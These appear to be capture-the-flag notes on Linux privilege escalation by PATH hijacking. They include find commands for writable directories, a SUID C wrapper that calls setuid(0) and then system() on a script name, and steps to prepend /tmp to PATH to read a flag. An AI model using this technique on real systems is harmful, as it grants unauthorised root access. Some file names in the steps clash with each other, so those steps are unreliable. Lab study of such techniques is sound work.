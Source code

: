 Obtain the outputs from both the following below to find and initial vector to exploit

> $PATH
> find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u

To look at the find options differently - add grep -v proc to remove results related to running processes
> find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

Create an executable file
>Nano
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("Script_name");
}

Compile the executable file in the appropriate folder
> gcc path_exp.c -o path -w
> chmod u+s path
> ls -l
  - this is to verify that it is an executable with an SUID bit




If the folder vector is not shared between the PATH variable and the search - add the folder to the PATH variable = below is adding /tmp folder to the path variable
> export PATH=/tmp:$PATH

inside the executable folder create a 
> echo "command you want executed" > Script_name
> chmod 777 script_name
> ls -l
> ./path

THM room answer since gcc did not work and the executable file was provided

> echo "cat /home/matt/flag6.txt" > thm
> chmod +x thm
> ./test
flag6 text



